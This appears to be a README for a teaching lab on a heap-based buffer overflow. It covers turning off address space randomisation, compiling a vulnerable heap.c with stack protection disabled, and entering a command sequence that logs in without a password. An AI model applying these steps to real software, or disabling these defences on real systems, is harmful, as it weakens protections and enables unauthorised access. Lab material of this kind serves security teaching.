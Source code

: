 # Buffer Overflow Vulnerability

The heap based attack can be demonstrated by running following steps. Let us go through it.

## Initial Setup of the Virtual Machine

To make our attack easier, we first need to disable address space
randomization, a defense against buffer overflows making guessing addresses in
the heap and stack more difficult.  To do so, we simply need to run the
following command under root privileges:

```
sudo sysctl -w kernel.randomize_va_space=0
```

A confirmation of the variable's value is printed `kernel.randomize_va_space = 0`
by the terminal. 


## Vulnerable Program

The vulnerable program is provided in the [heap.c](heap.c) file.  

```
gcc -o heap -z execstack -fno-stack-protector heap.c
```

## Exploiting the Vulnerability: Demonstration of the Buffer Overflow Attack

To demonstrate the buffer flow attack, we run the following commands:

```
./heap
```

This simply compiles and runs the heap.c file. 
After this, we see the effect of heap_based overflow helping us login without actually entering the password.
```
auth bufferoverflow.net
login # not logged in yet
login 234 # not logged in yet
service heapoverflow.net
login # logged in now
service 23
login # logged in now
```






